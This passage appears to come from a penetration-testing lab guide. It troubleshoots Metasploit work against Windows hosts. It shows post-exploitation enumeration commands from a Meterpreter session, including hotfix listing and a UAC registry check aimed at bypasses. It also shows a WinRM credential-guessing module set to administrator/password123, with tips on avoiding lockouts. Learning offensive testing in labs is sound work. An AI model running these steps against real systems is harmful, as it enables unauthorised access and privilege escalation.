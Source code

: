 **How to Fix:**
```bash
# Step 1: Check system information
meterpreter > sysinfo
# Verify Windows version and architecture

# Step 2: Update Metasploit database
msfdb reinit
# Refresh exploit database

# Step 3: Try manual enumeration
meterpreter > shell
C:\> systeminfo
C:\> wmic qfe get Description,HotFixID,InstalledOn
# Check for missing patches manually

# Step 4: Check UAC status
C:\> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
# Look for UAC settings that might be bypassable
```

**Common Causes:**
- Fully patched system with no known vulnerabilities
- Outdated Metasploit exploit database
- Target architecture mismatch
- Advanced security software blocking enumeration

---

### **❌ Problem 4: WinRM Connection Failures**

**What You See:**
```bash
[*] 10.0.28.125:5985 - LOGIN FAILED: administrator:password123 (Incorrect: )
[-] 10.0.28.125:5985 - Unable to Connect: The connection request was rejected by the remote host.
```

**How to Fix:**
```bash
# Step 1: Verify WinRM service is actually running
nmap -p 5985,5986 -sV target_ip
# Confirm ports are open and service version

# Step 2: Test basic connectivity
telnet target_ip 5985
# Check if port accepts connections

# Step 3: Try HTTPS instead of HTTP
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set SSL true
set RPORT 5986
set USERNAME administrator
set PASSWORD password123
exploit

# Step 4: Check for authentication lockouts
# Wait 5-10 minutes between attempts
# Try different username formats
set USERNAME .\administrator
set USERNAME DOMAIN\administrator
```
